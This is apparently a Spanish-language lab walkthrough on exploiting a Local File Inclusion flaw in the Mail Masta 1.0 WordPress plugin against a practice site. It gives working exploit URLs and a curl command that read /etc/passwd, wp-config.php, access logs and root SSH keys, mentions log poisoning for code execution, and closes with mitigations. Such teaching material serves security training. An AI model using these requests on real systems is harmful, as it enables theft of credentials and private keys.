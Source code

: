 
### **Explotación de Plugins Vulnerables en WordPress**

#### **Aprovechando los Resultados de WPScan**

WPScan identificó que el sitio **usa una versión desactualizada de WordPress (5.3.2)** y un **tema antiguo (Twenty Twenty)**. También detectó **dos plugins vulnerables**:

- **Mail Masta 1.0** (vulnerable a **SQL Injection y Local File Inclusion - LFI**).
- **Google Review Slider** (vulnerable a **SQL Injection Autenticado**).

Estos hallazgos incluyen enlaces a PoCs (Pruebas de Concepto) que indican cómo explotar estas vulnerabilidades.

---

## **Explotando una Vulnerabilidad LFI en Mail Masta 1.0**

**LFI (Local File Inclusion)** permite a un atacante **leer archivos del sistema** en el servidor, lo que puede exponer credenciales y datos sensibles.

### **Paso 1: Verificar si el LFI es Explotable**

Según **exploit-db**, la vulnerabilidad LFI en **Mail Masta 1.0** se explota accediendo a:

```plaintext
http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

Si el ataque es exitoso, se podrá leer el archivo **`/etc/passwd`**, que contiene información sobre los usuarios del sistema.

---

### **Paso 2: Explotación usando el Navegador**

Para probar la vulnerabilidad, simplemente ingresamos la URL en un navegador:

```plaintext
http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

Si el ataque es exitoso, el navegador mostrará contenido similar a esto:

```plaintext
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

---

### **Paso 3: Explotación con cURL**

Podemos verificar la vulnerabilidad desde la terminal usando `cURL`:

```bash
curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

**Salida esperada (indica éxito en la explotación):**

```plaintext
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

---

## **Posibles Ataques Usando LFI**

1. **Leer archivos sensibles como:**
    - Credenciales de bases de datos (`wp-config.php`):
        
        ```plaintext
        http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=../../../../wp-config.php
        ```
        
    - Logs de acceso (`/var/log/apache2/access.log`):
        
        ```plaintext
        http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/log/apache2/access.log
        ```
        
    - Claves SSH del servidor (`/root/.ssh/id_rsa`):
        
        ```plaintext
        http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/root/.ssh/id_rsa
        ```
        
2. **Ejecución Remota de Código (RCE) a través de Log Poisoning**
    - Si podemos escribir en un archivo de log accesible, podemos inyectar código PHP malicioso y ejecutarlo.

---

## **Recomendaciones para Mitigar LFI**

1. **Actualizar o eliminar el plugin vulnerable.**
2. **Restringir acceso directo a archivos en WordPress.**
3. **Configurar `open_basedir` en `php.ini` para evitar acceso a archivos sensibles.**
4. **Usar reglas en `.htaccess` para bloquear accesos no autorizados:**
    
    ```plaintext
    <Files count_of_send.php>
    Order Allow,Deny
    Deny from all
    </Files>
    ```
    
5. **Revisar los logs del servidor** para detectar intentos de explotación.

---

## **Conclusión**

A través de **WPScan**, identificamos una vulnerabilidad LFI en **Mail Masta 1.0** y la explotamos con **cURL**. Con LFI, un atacante podría:

- **Leer archivos del servidor.**
- **Obtener credenciales.**
- **Ejecutar código malicioso.**

Por ello, **mantener WordPress y sus plugins actualizados** es una medida esencial para evitar este tipo de ataques.